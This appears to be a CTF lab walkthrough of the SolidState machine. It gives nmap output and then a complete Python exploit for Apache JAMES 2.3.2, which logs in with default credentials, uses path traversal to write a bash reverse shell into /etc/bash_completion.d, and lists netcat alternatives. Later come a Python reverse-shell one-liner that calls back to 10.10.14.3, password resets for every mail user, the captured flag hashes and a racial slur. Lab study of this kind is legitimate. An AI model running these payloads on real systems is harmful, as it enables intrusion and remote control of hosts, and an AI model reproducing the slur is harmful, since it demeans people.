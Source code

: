#linux #manual 
### Scan
```
└─# nmap -sC -sV --open -p- 10.10.10.51
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-11 11:54 EDT
Nmap scan report for 10.10.10.51
Host is up (0.14s latency).
Not shown: 64818 closed tcp ports (reset), 712 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.3 [10.10.14.3])
110/tcp  open  pop3    JAMES pop3d 2.3.2
119/tcp  open  nntp    JAMES nntpd (posting ok)
4555/tcp open  rsip?
| fingerprint-strings: 
|   GenericLines: 
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for 
|_    Login id:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.94SVN%I=7%D=9/11%Time=66E1BD82%P=aarch64-unknown-linux
SF:-gnu%r(GenericLines,7C,"JAMES\x20Remote\x20Administration\x20Tool\x202\
SF:.3\.2\nPlease\x20enter\x20your\x20login\x20and\x20password\nLogin\x20id
SF::\nPassword:\nLogin\x20failed\x20for\x20\nLogin\x20id:\n");
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 309.20 seconds

```
### Enumeration
petential RCE from edb


tryna enum from port 4555![Image](/assets/Screenshot 2024-09-11 at 12.56.11 PM.png)
![Image](/assets/Screenshot 2024-09-11 at 12.55.44 PM.png)

set up python script and listener (dont forget to wrap like i did :P)

```
import socket
import sys
import time
 
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'
 
if len(sys.argv) != 4:
    sys.stderr.write("[-]Usage: python3 %s <remote ip> <local ip> <local listener port>\n" % sys.argv[0])
    sys.stderr.write("[-]Example: python3 %s 172.16.1.66 172.16.1.139 443\n" % sys.argv[0])
    sys.stderr.write("[-]Note: The default payload is a basic bash reverse shell - check script for details and other options.\n")
    sys.exit(1)
 
remote_ip = sys.argv[1]
local_ip = sys.argv[2]
port = sys.argv[3]
 
# Select payload prior to running script - default is a reverse shell executed upon any user logging in (i.e. via SSH)
payload = '/bin/bash -i >& /dev/tcp/' + local_ip + '/' + port + ' 0>&1' # basic bash reverse shell exploit executes after user login
#payload = 'nc -e /bin/sh ' + local_ip + ' ' + port # basic netcat reverse shell
#payload = 'echo $USER && cat /etc/passwd && ping -c 4 ' + local_ip # test remote command execution capabilities and connectivity
#payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # proof of concept exploit on root user login only
 
print ("[+]Payload Selected (see script for more options): ", payload)
if '/bin/bash' in payload:
    print ("[+]Example netcat listener syntax to use after successful execution: nc -lvnp", port)
 
 
def recv(s):
        s.recv(1024)
        time.sleep(0.2)
 
try:
    print ("[+]Connecting to James Remote Administration Tool...")
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((remote_ip,4555)) # Assumes James Remote Administration Tool is running on Port 4555, change if necessary.
    s.recv(1024)
    s.send((user + "\n").encode('utf-8'))
    s.recv(1024)
    s.send((pwd + "\n").encode('utf-8'))
    s.recv(1024)
    print ("[+]Creating user...")
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n".encode('utf-8'))
    s.recv(1024)
    s.send("quit\n".encode('utf-8'))
    s.close()
 
    print ("[+]Connecting to James SMTP server...")
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((remote_ip,25)) # Assumes default SMTP port, change if necessary.
    s.send("ehlo team@team.pl\r\n".encode('utf-8'))
    recv(s)
    print ("[+]Sending payload...")
    s.send("mail from: <'@team.pl>\r\n".encode('utf-8'))
    recv(s)
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n".encode('utf-8')) if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n".encode('utf-8'))
    recv(s)
    s.send("data\r\n".encode('utf-8'))
    recv(s)
    s.send("From: team@team.pl\r\n".encode('utf-8'))
    s.send("\r\n".encode('utf-8'))
    s.send("'\n".encode('utf-8'))
    s.send((payload + "\n").encode('utf-8'))
    s.send("\r\n.\r\n".encode('utf-8'))
    recv(s)
    s.send("quit\r\n".encode('utf-8'))
    recv(s)
    s.close()
    print ("[+]Done! Payload will be executed once somebody logs in (i.e. via SSH).")
    if '/bin/bash' in payload:
        print ("[+]Don't forget to start a listener on port", port, "before logging in!")
except:
    print ("Connection failed.")
```

netcat into box and change passwords of all users to `password`
![Image](/assets/Screenshot 2024-09-11 at 1.38.31 PM.png)

Now, we need to telnet into the mail server via pop3 on port 110. ![Image](/assets/Screenshot 2024-09-11 at 1.39.52 PM.png) 

`USER mindy` then type '`PASS password`'

we can poke around these user's emails using `LIST` and `RETR`
ssh creds ![Image](/assets/Screenshot 2024-09-11 at 1.41.52 PM.png)

Once we log in, our script from earlier triggers our listener!
![Image](/assets/Screenshot 2024-09-11 at 1.43.23 PM.png)

![Image](/assets/Screenshot 2024-09-11 at 1.44.01 PM.png)
`USER:c2a02b6aac5efe90cc11717f43994eaa`

serve linpeas 

serve linenum
both didnt work



talk about opt and other common to check like /srv/ and /dev/

![Image](/assets/Screenshot 2024-09-11 at 2.07.06 PM.png)

we see py script with read and write all perms

pspy

python reverse shell one liner 
```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.3',9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);" > tmp.py
```

wait a few mins with wrapped listener

![Image](/assets/Screenshot 2024-09-11 at 2.15.11 PM.png)

boom niga

`ROOT:08bae8a910f1847604ff24468d51688c`





### Initial Access

### Privilege Escalation